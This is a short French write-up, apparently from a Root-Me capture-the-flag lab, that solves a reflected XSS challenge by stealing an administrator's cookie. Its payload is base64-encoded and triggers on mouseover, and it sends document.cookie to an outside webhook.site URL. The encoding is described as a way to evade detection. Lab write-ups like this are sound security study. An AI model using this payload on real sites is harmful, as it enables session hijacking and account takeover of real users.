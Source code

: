 ```yaml
---
title: 'XSS - Volatile'
description: "Exploitation d'une XSS réfléchie avancée avec événement mouseover"
pubDate: 'Jul 1 2025'
heroImage: '/src/assets/root_me/rootme14-0.png'
---
```


## 13. XSS - Volatile

**Objectif :** Voler le cookie de l'administrateur (administrateur sensibilisé à la sécurité)  
**Méthode :** XSS réfléchie via événement mouseover et exfiltration par webhook  
**Outils utilisés :** Webhook.site / injection de code / événements HTML  
**Temps :** 1h30  


### Solution

Exploitation d'une XSS réfléchie complexe sur un administrateur prudent qui ne clique pas sur les liens suspects.

<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme14-0.png"/></div>

**Étapes :**
1. Identifier le point de contact avec l'admin : signalement de pages inexistantes
2. Comprendre que l'admin ne cliquera pas sur les liens
3. Utiliser l'événement `mouseover` au lieu du clic
4. Encoder le payload en base64 pour éviter la détection
5. Injecter le payload :
   ```html
   <a href='?p=' onmouseover=eval(atob('bmV3IEltYWdlKCkuc3JjPSJodHRwczovL3dlYmhvb2suc2l0ZS9jYWE4NmEyMy03MmU1LTQ4N2MtYTk5ZC0wOWIwMjNiZjEwOTM/Y29va2llPSIrZG9jdW1lbnQuY29va2ll')) href=''>...</a>
   ```
6. Le simple survol déclenche l'exfiltration du cookie
7. Récupérer le cookie admin sur le webhook

<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme14-1.png"/></div>

<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme14-2.png"/></div>

<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme14-3.png"/></div>

<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme14-4.png"/></div>

<div class="flex items-center justify-center m-auto  mb-4 object-cover"><img src="/images/root_me/rootme14-5.png"/></div>

